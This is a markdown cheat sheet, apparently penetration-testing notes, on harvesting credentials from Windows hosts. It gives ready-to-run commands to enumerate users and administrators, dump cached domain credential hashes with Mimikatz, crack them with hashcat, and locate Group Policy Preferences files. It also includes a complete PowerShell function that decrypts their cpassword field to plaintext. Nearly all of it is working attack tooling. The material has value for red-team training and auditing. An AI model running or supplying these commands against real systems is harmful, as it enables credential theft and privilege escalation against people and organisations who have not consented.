 # Index
- [[ Windows Credential Harvesting]]

# Local Account Information

#### Enumerating Local User Accounts

- **CMD:** List all local user accounts:
    ```cmd
    net user
    ```

- **PowerShell:** List all local user accounts:
    ```powershell
    Get-LocalUser
    ```

#### Enumerating Privileged Local Users (Administrators)

- **CMD:** List all members of the local Administrators group:
    ```cmd
    net localgroup Administrators
    ```

- **PowerShell:** List all members of the local Administrators group:
    ```powershell
    Get-LocalGroupMember -Group "Administrators"
    ```

# Cached Domain Credentials

Windows may cache domain credentials locally, allowing users to log in without contacting the domain controller when it's unavailable. Cached domain credentials are stored in the registry in an encrypted format.

#### Query Cached Domain Credentials
- **CMD/PowerShell:** Query the cached domain credentials from the registry:
    ```powershell
    reg query "HKLM\SECURITY\Cache"
    ```

These cached credentials are stored as `MSCachev2` hashes, which cannot be directly decoded using native PowerShell or CMD tools. You will need to use external tools like **Mimikatz** to extract and decrypt them.

- **Mimikatz:** Dump cached domain credentials:
    ```cmd
    mimikatz.exe "lsadump::cache" exit
    ```

Once you have the `MSCachev2` hashes, you can use **hashcat** to crack them:

- **Hashcat:** Crack `MSCachev2` hashes:
    ```bash
    hashcat -m 2100 <hashes_file> <password_list>
    ```

# Group Policy Preferences (GPP) Credential Storage

Group Policy Preferences can store sensitive credentials in XML files, such as local administrator passwords, and these may be stored in an encrypted form using the `cpassword` field.

#### Searching for GPP Files

- **CMD:** Search for `Groups.xml` files across the filesystem:
    ```cmd
    dir C:\ /s /b | findstr Groups.xml
    ```

- **PowerShell:** Search for `Groups.xml` files that may contain GPP credentials:
    ```powershell
    Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Name -match "Groups.xml" }
    ```

#### Location of GPP Files

GPP files are commonly located in the following directory:
```plaintext
C:\ProgramData\Microsoft\Group Policy\History\<GPO GUID>\Machine\Preferences\Groups\Groups.xml
```

#### Extracting `cpassword` from GPP Files

The `cpassword` field stores the encrypted password. Extract the `cpassword` from a GPP XML file using the following commands:

- **CMD:** Extract the `cpassword` field from `Groups.xml`:
    ```cmd
    findstr cpassword C:\Path\To\Groups.xml
    ```

- **PowerShell:** Extract the `cpassword` field from `Groups.xml`:
    ```powershell
    (Get-Content "C:\Path\To\Groups.xml").Select-String -Pattern "cpassword"
    ```

#### Decrypting `cpassword`

To decrypt the `cpassword`, a known AES key can be used. This PowerShell function allows for decryption:

- **PowerShell:** Decrypt `cpassword` from GPP XML files:
    ```powershell
    function ConvertFrom-GPPPassword {
        param ([String]$Cpassword)
        $key = [Byte[]](0x4e, 0x99, 0x06, 0xe8, 0xfc, 0xb6, 0x6c, 0xc9, 0xfa, 0xf4, 0x93, 0x10, 0x62, 0x0f, 0xfe, 0xe8)
        $CpasswordBytes = [Convert]::FromBase64String($Cpassword)
        $AESObject = New-Object System.Security.Cryptography.AesManaged
        $AESObject.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $AESObject.Padding = [System.Security.Cryptography.PaddingMode]::None
        $AESObject.Key = $key
        $AESObject.IV = New-Object Byte[] 16
        $Decryptor = $AESObject.CreateDecryptor()
        $PlainTextBytes = $Decryptor.TransformFinalBlock($CpasswordBytes, 0, $CpasswordBytes.Length)
        $PlainText = [System.Text.Encoding]::Unicode.GetString($PlainTextBytes)
        return $PlainText
    }

    # Usage:
    ConvertFrom-GPPPassword -Cpassword "<extracted_cpassword>"
    ```

This will return the plaintext password for the local administrator or other stored credentials.
